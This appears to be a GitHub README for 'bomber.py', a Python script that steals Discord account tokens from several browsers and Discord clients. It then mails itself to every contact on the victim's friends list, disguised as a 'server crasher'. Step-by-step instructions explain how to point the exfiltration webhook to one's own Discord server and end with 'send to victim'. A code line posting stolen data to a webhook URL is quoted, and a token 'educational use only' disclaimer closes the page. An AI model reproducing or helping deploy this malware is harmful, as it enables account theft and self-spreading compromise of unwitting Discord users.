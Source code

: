 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

DO NOT RUN THIS ON YOUR COMPUTER if you want to see what it does i recomend you run it in a vm and not a computer that you have logged your main discord account in previously.

This python script when you run it will token log the person and then send the file (bomber.py) to everyone on there friends list saying its a discord server crasher.

## It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

## instuctions

If you want to change were it sends the token to.

1. create a discord server 

 ![Screenshot 2021-05-09 150939](https://user-images.githubusercontent.com/83868916/117561272-a3a73180-b0d8-11eb-8ff1-bd4e4e4584e8.png)

2. add a webhook ![Screenshot 2021-05-09 150105](https://user-images.githubusercontent.com/83868916/117561184-d270d800-b0d7-11eb-9432-49ec9ff63840.png)

3. copy webhook url ![Screenshot 2021-05-09 150143](https://user-images.githubusercontent.com/83868916/117561189-d69cf580-b0d7-11eb-8473-9b7f8d902403.png)

4. open the bommer.py in IDLE or another python editor ![Screenshot 2021-05-09 150211](https://user-images.githubusercontent.com/83868916/117561191-d7ce2280-b0d7-11eb-9978-ee33c259c576.png)

5. scroll down to the last line before the blank (big gap in code) near the bottom 
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ", data=dumps(webhook).encode(), headers=getheaders())) ![Screenshot 2021-05-09 150239](https://user-images.githubusercontent.com/83868916/117561194-d997e600-b0d7-11eb-8225-0bb6d77fa324.png)
6. change the "https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ" to your webhook url ![Screenshot 2021-05-09 150300](https://user-images.githubusercontent.com/83868916/117561195-dac91300-b0d7-11eb-9494-a55d8f6e5276.png)

7. save the file 

8. send to victim on discord ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

# **!!Disclaimer this is for educational use only and i am not responsible for your actions or uses of this code!!**
